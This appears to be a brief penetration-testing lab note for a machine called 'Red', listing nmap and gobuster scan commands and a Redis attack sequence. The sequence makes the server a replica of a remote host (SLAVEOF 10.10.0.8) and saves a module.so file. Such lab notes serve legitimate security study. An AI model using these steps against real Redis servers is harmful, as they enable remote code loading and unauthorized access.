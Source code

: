 ```yaml
---
title: Red
created: '2020-07-13T08:06:51.777Z'
modified: '2020-07-13T08:52:16.829Z'
---
```


# Red
- IP: `172.31.1.9`
- OS: `Linux`
## Enumeration
### Writeup

```
INFO # Check for NOAUTH
SLAVEOF 10.10.0.8 1234
CONFIG SET dbfilename module.so
```

### Commands
<details>
<summary>nmap</summary>

- `nmap -p 1-65535 -T4 -A -v 172.31.1.9`
```

```
</details>

<details>
<summary>gobuster</summary>

- `gobuster dir --wordlist /usr/share/wordlists/dirb/big.txt --url http://172.31.1.9/ -x html,txt -o commands/gobuster-80-root`
```

```
</details>

<details>
<summary></summary>

- ``
```

```
</details>
